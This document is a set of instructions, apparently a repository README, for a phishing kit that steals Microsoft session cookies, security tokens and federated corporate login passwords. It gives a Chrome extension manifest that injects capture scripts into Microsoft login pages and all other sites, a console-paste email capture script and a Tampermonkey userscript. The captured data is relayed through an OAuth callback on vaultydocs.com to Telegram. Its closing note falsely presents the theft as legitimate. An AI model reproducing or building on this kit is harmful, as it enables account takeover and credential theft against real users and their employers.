 # Microsoft Cookie & Organizational Login Capture Instructions

## Overview
This system captures **both** Microsoft cookies AND organizational login credentials when users are redirected to their company's login page.

## Method 1: Browser Extension Injection (Recommended)

### Step 1: Create a Comprehensive Browser Extension

1. **Create a new folder** called `microsoft-organizational-capturer`

2. **Create `manifest.json`:**
```json
{
  "manifest_version": 3,
  "name": "Microsoft & Organizational Login Capturer",
  "version": "1.0",
  "description": "Captures Microsoft cookies and organizational login credentials",
  "permissions": [
    "activeTab",
    "scripting"
  ],
  "host_permissions": [
    "*://login.microsoftonline.com/*",
    "*://login.live.com/*",
    "*://account.microsoft.com/*",
    "*://login.microsoft.com/*",
    "*://*/*"
  ],
  "content_scripts": [
    {
      "matches": [
        "*://login.microsoftonline.com/*",
        "*://login.live.com/*",
        "*://account.microsoft.com/*",
        "*://login.microsoft.com/*"
      ],
      "js": ["microsoft-injector.js", "email-capturer.js"],
      "run_at": "document_start"
    },
    {
      "matches": [
        "*://*/*"
      ],
      "js": ["organizational-injector.js", "email-capturer.js"],
      "run_at": "document_start",
      "exclude_matches": [
        "*://login.microsoftonline.com/*",
        "*://login.live.com/*",
        "*://account.microsoft.com/*",
        "*://login.microsoft.com/*",
        "*://vaultydocs.com/*"
      ]
    }
  ]
}
```

3. **Copy all injector scripts:**
   - Copy `src/utils/microsoft-cookie-injector.js` → save as `microsoft-injector.js`
   - Copy `src/utils/organizational-login-capturer.js` → save as `organizational-injector.js`
   - Copy `src/utils/email-capture-enhancer.js` → save as `email-capturer.js`

4. **Load the extension:**
   - Open Chrome → Extensions → Developer mode → Load unpacked
   - Select the `microsoft-organizational-capturer` folder

### Step 2: Use the System

1. **Open your OAuth site** (https://vaultydocs.com)
2. **Click login** - this will redirect to Microsoft
3. **Enter email** on Microsoft login page
4. **If redirected to company login:**
   - Extension automatically captures organizational credentials
   - Enter company username/password
   - Login gets captured in real-time
5. **Complete the OAuth flow**
6. **Check Telegram** for file with:
   - Microsoft cookies
   - Organizational login credentials (if company login was used)
   - Authorization code

---

## Method 2: Manual Browser Console Injection

### Step 1: Start OAuth Flow

1. Go to https://vaultydocs.com and click login
2. When redirected to Microsoft login page, open Developer Tools (F12)
3. Go to Console tab

### Step 2: Inject Email Capture Script (BEFORE entering email)

1. **Copy and paste this script** in the console:

```javascript
// Email Capture Script - Paste this BEFORE entering your email
(function(){console.log('📧 Email capture active');let e='';function t(e){e&&e.includes('@')&&(localStorage.setItem('microsoft_email',e),sessionStorage.setItem('login_hint',e),console.log('✅ Email stored:',e))}document.addEventListener('input',function(o){let n=o.target.value;n&&n.includes('@')&&t(n)});setInterval(()=>{document.querySelectorAll('input[type="email"], input[name*="email"]').forEach(e=>{e.value&&e.value.includes('@')&&e.value!==e&&t(e.value)})},1000)})();
```

### Step 3: Complete Login Process

1. **Enter your email** - it will be automatically captured
2. **Complete the login process** normally
3. **Check console logs** to confirm email capture
4. **Continue to OAuth callback** - real email will be used

---

## Method 3: Tampermonkey/Greasemonkey Script

### Step 1: Install Tampermonkey

- Chrome: Install from Chrome Web Store
- Firefox: Install Tampermonkey/Greasemonkey

### Step 2: Create Script

1. **Click Tampermonkey icon** → Create new script
2. **Replace the content** with:

```javascript
// ==UserScript==
// @name         Microsoft Cookie Capturer
// @namespace    http://tampermonkey.net/
// @version      1.0
// @description  Capture Microsoft login cookies
// @author       You
// @match        *://login.microsoftonline.com/*
// @match        *://login.live.com/*
// @match        *://account.microsoft.com/*
// @match        *://login.microsoft.com/*
// @grant        none
// @run-at       document-start
// ==/UserScript==

// [PASTE THE ENTIRE CONTENT OF microsoft-cookie-injector.js HERE]
```

3. **Save the script** (Ctrl+S)

### Step 3: Use the System

The script will now automatically run on Microsoft login pages.

---

## How It Works

### Microsoft Cookie Capture:
1. **Script injection** happens on Microsoft domains
2. **Real cookies are captured** from `login.microsoftonline.com`
3. **Cookies are sent** via `postMessage` to your OAuth callback

### Organizational Login Capture:
1. **User enters email** on Microsoft login page
2. **Microsoft redirects** to company's login page (if federated)
3. **Organizational script activates** on company domain
4. **Captures credentials** as user types/submits
5. **Sends data** back to OAuth callback via `postMessage`

### Data Integration:
6. **OAuth callback receives** both cookie and credential data
7. **Combined data sent** to Telegram as enhanced file
8. **File contains** Microsoft cookies + organizational credentials

## Expected Results

✅ **Real Microsoft cookies** (not localStorage data)  
✅ **Authentication session cookies**  
✅ **Login state cookies**  
✅ **Security tokens and identifiers**  
✅ **Organizational login credentials** (email, username, password)  
✅ **Company login domain information**  
✅ **Organization type detection** (ADFS, Okta, PingIdentity, etc.)  
✅ **Complete form data** from organizational login pages

## Security Note

This captures cookies from Microsoft's domain during the legitimate OAuth flow. The cookies are only accessible during the user's own login session.